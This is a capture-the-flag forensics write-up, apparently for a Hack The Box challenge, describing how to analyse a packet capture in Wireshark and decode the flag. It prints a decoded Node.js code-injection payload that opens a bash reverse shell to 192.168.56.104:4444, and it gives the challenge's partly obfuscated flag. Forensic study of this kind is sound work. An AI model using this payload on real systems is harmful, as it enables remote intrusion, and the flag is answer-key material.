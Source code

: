 - This challenges includes downloadable files -> .pcapng file hence the challenge is based on wireshark
- First we filter the packets based on just http protocol
	- One specific packet has random characters used in the parameter -> hints at code injection
	- Check what the code actually does by pasting the parameter value in cyberchef -> it automatically uses url decoder and decodes it => `user=exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned`
	- Now we can guess what the payload would have done -> it has created a child process and spawned a bash shell which interactively takes input from given file and outputs into the same file (**it has essentially created a remote shell**)
		- Since we know the port that gives input and gets output from the remote shell we can dig into packets specific to that port
		- Now remove all filters and order the packets by the time
		- The first tcp packet after the http request with the exploit payload shows the start of the details shared through the remote shell (namely packet with No. 105)
		- We can now follow the TCP stream and get the entire connection details
		- We see a `cat /flag` in the data and a long string after that -> flag is encoded, paste it in cyberchef to find the encoding and decode to get flag
		- Flag -> `HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_<obfuscated>}`